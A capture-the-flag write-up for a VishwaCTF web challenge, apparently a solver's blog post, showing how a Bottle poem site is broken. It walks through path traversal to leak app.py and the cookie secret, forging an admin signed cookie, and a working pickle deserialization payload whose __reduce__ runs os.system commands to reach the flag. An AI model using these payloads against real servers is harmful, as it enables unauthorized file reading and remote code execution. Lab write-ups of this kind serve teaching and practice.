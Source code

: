 # [vishwactf] Prompt Injection
# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem

![](/media//screenshot3.png)

# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`

![url](/media//Prompt_Injection_url.png)

the value of `id` is a filename, so let's try if the server has a lfi vulnerability

![screenshot](/media//lfi.png)

the server is indeed vulnerable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front

![app filter](/media//app_filter.png)

```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it

![leaking secret.py](/media//leaking_secret.png)

now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`

![admin_cookie](/media//admin_cookie.png)

using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates

![template](/media//guest_temp.png)
![template](/media//admin_temp.png)
![template](/media//index_temp.png)

i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the malicious cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result

![](/media//screenshot.png)

we find that there is a `flag` file in the `/` directory, it only has executing permisions

![](/media//screenshot2.png)

and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```

![](/media//flag.png)
